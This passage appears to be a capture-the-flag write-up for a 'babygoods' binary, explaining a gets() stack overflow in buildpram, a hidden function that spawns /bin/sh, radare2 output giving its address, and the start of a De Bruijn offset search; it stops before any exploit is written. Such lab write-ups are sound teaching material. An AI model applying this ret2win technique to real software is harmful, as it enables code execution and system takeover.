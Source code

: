 ```c
```

In `buildpram`, the user is prompted to choose a pram size, which is copied into `char size[4]`. The vulnerability is when a name is given to the pram. Using the `gets` function allows us to overflow the buffer and write into memory outside of `buf`.

There is another interesting function:

```c
int sub_15210123() {
    execve("/bin/sh", 0, 0);
}
```

We can see that this function gives us shell access from the program, so we need to enter this function to read the flag.

This is a typical stack overflow ret2win challenge, and we can simply overflow the buffer and overwrite `RIP` to the address of `sub_15210123` to get the shell.

Let's find the address of `sub_15210123` first:

```
elijah@soyabean: $ r2 -d -A babygoods
[truncated]
[0x7f5b74961290]> afl
0x004010c0    1     11 sym.imp.puts
0x004010d0    1     11 sym.imp.setbuf
0x004010e0    1     11 sym.imp.printf
0x004010f0    1     11 sym.imp.strcspn
0x00401100    1     11 sym.imp.fgets
0x00401110    1     11 sym.imp.execve
0x00401120    1     11 sym.imp.gets
0x00401130    1     11 sym.imp.atoi
0x00401140    1     11 sym.imp.exit
0x00401150    1     37 entry0
0x00401190    4     31 sym.deregister_tm_clones
0x004011c0    4     49 sym.register_tm_clones
0x00401200    3     32 sym.__do_global_dtors_aux
0x00401230    1      6 sym.frame_dummy
0x0040125a    5    207 sym.buildpram
0x0040134a    6    246 sym.menu
0x004014e0    1     13 sym._fini
0x00401236    1     36 sym.sub_15210123
0x00401180    1      5 sym._dl_relocate_static_pie
0x00401443    1    156 main
0x00401329    1     33 sym.exitshop
0x00401000    3     27 sym._init
```

So now we know that `sub_15210123` is located at `0x00401236`.

I then used De Brujin sequences to find the offset of `RIP` from the address of our input.

First we generate the sequence using `Python`,
